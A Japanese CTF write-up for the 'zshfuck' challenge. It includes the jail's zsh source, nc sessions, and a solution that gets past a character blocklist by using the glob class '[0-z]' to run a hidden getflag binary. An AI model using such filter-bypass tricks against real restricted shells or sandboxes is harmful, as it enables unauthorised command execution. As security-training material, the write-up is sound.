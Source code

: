 # zshfuck:misc:127pts
may your code be under par. execute the `getflag` binary somewhere in the filesystem to win  
`nc mc.ax 31774`  

[jail.zsh](jail.zsh)  

# Solution
接続先とソースが渡される。  
ソースは以下のようであった。  
```zsh
#!/bin/zsh
print -n -P "%F{green}Specify your charset: %f"
read -r charset
# get uniq characters in charset
charset=("${(us..)charset}")
banned=('*' '?' '`')

if [[ ${#charset} -gt 6 || ${#charset:|banned} -ne ${#charset} ]]; then
    print -P "\n%F{red}That's too easy. Sorry.%f\n"
    exit 1
fi
print -P "\n%F{green}OK! Got $charset.%f"
charset+=($'\n')

# start jail via coproc
coproc zsh -s
exec 3>&p 4<&p

# read chars from fd 4 (jail stdout), print to stdout
while IFS= read -u4 -r -k1 char; do
    print -u1 -n -- "$char"
done &
# read chars from stdin, send to jail stdin if valid
while IFS= read -u0 -r -k1 char; do
    if [[ ! ${#char:|charset} -eq 0 ]]; then
        print -P "\n%F{red}Nope.%f\n"
        exit 1
    fi
    # send to fd 3 (jail stdin)
    print -u3 -n -- "$char"
done
```
一回目に`*`、`?`、`` ` ``を除く6種類以下の文字を入力し、それらの文字だけで構成されたスクリプトを二回目に入力するとzshで実行してくれる。  
フラグはどこかにある`getflag`を実行する必要があるようだ。  
まずは`getflag`の場所だが、チームメンバが`find .`でディレクトリ一覧が表示されることを発見していた。  
```bash
$ nc mc.ax 31774
Specify your charset: find .

OK! Got f i n d   ..
find .
.
./y0u
./y0u/w1ll
./y0u/w1ll/n3v3r_g3t
./y0u/w1ll/n3v3r_g3t/th1s
./y0u/w1ll/n3v3r_g3t/th1s/getflag
./run
~~~
$ nc mc.ax 31774
Specify your charset: find .

OK! Got f i n d   ..
find ..
..
../app
../app/y0u
../app/y0u/w1ll
../app/y0u/w1ll/n3v3r_g3t
../app/y0u/w1ll/n3v3r_g3t/th1s
../app/y0u/w1ll/n3v3r_g3t/th1s/getflag
../app/run
../boot
../tmp
../libx32
../lib32
../etc
~~~
```
`find ..`で一つ上がルートであり、`/app/y0u/w1ll/n3v3r_g3t/th1s/getflag`を実行すればよいことがわかる。  
文字種を削減するため`/a**/***/****/*********/****/g******`のようにワイルドカードを利用したいが、禁止されている。  
ここでzshのワイルドカードを調べると`[a-z]`のようにアルファベット小文字を指定できることがわかる。  
`[a-z]`と`/`で6種類だがパスに数字や記号があるためマッチしない。  
試行錯誤すると`[0-z]`で良いことがわかる。  
以下のように行う。  
```bash
$ nc mc.ax 31774
Specify your charset: [0-z]/

OK! Got [ 0 - z ] /.
/[0-z][0-z][0-z]/[0-z][0-z][0-z]/[0-z][0-z][0-z][0-z]/[0-z][0-z][0-z][0-z][0-z][0-z][0-z][0-z][0-z]/[0-z][0-z][0-z][0-z]/[0-z][0-z][0-z][0-z][0-z][0-z][0-z]
dice{d0nt_u_jU5T_l00oo0ve_c0d3_g0lf?}
```
flagが得られた。  

## dice{d0nt_u_jU5T_l00oo0ve_c0d3_g0lf?}